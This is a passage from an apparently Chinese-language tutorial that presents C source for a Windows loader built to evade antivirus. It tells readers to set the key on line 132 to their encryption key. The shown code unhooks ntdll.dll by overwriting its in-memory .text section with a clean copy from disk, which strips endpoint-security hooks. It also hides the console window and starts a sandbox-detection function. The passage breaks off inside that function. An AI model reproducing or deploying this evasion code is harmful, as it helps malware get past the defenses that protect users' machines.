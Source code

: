 #### 具体实现

**该将的都讲了,接下来上源码!**

需要注意的是,132行的key设置为文章开头你加密的key

```
#include &lt;Windows.h&gt;
#include &lt;wincrypt.h&gt;
#include &lt;string.h&gt;
#include &lt;stdlib.h&gt;
#include &lt;winreg.h&gt;
#include &lt;tlhelp32.h&gt;
#include &lt;time.h&gt;
#include "resource.h"
#include &lt;io.h&gt;
#pragma comment(lib, "Crypt32.lib")
#include &lt;psapi.h&gt;
#include &lt;iostream&gt;
#include &lt;stdio.h&gt;
#pragma comment( linker, "/subsystem:\"windows\" /entry:\"mainCRTStartup\"")

DWORD UNHOOKntdll() {
    MODULEINFO mi = {};
    HMODULE ntdllModule = GetModuleHandleA("ntdll.dll");
    GetModuleInformation(HANDLE(-1), ntdllModule, &amp;mi, sizeof(mi));
    LPVOID ntdllBase = (LPVOID)mi.lpBaseOfDll;
    HANDLE ntdllFile = CreateFileA("c:\\windows\\system32\\ntdll.dll", 
  GENERIC_READ, FILE_SHARE_READ, NULL, OPEN_EXISTING, 0, NULL);
    HANDLE ntdllMapping = CreateFileMapping(ntdllFile, NULL, 
  PAGE_READONLY | SEC_IMAGE, 0, 0, NULL);
    LPVOID ntdllMappingAddress = MapViewOfFile(ntdllMapping, FILE_MAP_READ, 0, 0, 0);
    PIMAGE_DOS_HEADER hookedDosHeader = (PIMAGE_DOS_HEADER)ntdllBase;
    PIMAGE_NT_HEADERS hookedNtHeader = (PIMAGE_NT_HEADERS)((DWORD_PTR)ntdllBase +
  hookedDosHeader-&gt;e_lfanew);
    for (WORD i = 0; i &lt; hookedNtHeader-&gt;FileHeader.NumberOfSections; i++)
    {
        PIMAGE_SECTION_HEADER hookedSectionHeader = 
    (PIMAGE_SECTION_HEADER)((DWORD_PTR)IMAGE_FIRST_SECTION(hookedNtHeader) 
    + ((DWORD_PTR)IMAGE_SIZEOF_SECTION_HEADER * i));
        if (!strcmp((char*)hookedSectionHeader-&gt;Name, (char*)".text")) {
            DWORD oldProtection = 0;
            bool isProtected = VirtualProtect((LPVOID)((DWORD_PTR)ntdllBase
      + (DWORD_PTR)hookedSectionHeader-&gt;VirtualAddress),
      hookedSectionHeader-&gt;Misc.VirtualSize, PAGE_EXECUTE_READWRITE, &amp;oldProtection);
            memcpy((LPVOID)((DWORD_PTR)ntdllBase +
      (DWORD_PTR)hookedSectionHeader-&gt;VirtualAddress), 
      (LPVOID)((DWORD_PTR)ntdllMappingAddress
      + (DWORD_PTR)hookedSectionHeader-&gt;VirtualAddress), 
      hookedSectionHeader-&gt;Misc.VirtualSize);
            isProtected = VirtualProtect((LPVOID)((DWORD_PTR)ntdllBase +
      (DWORD_PTR)hookedSectionHeader-&gt;VirtualAddress), 
      hookedSectionHeader-&gt;Misc.VirtualSize, oldProtection, &amp;oldProtection);
        }
    }
    CloseHandle(ntdllFile);
    CloseHandle(ntdllMapping);
    FreeLibrary(ntdllModule);
    return 0;
}

void BypassSimulation()
{

    HANDLE snapShot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
```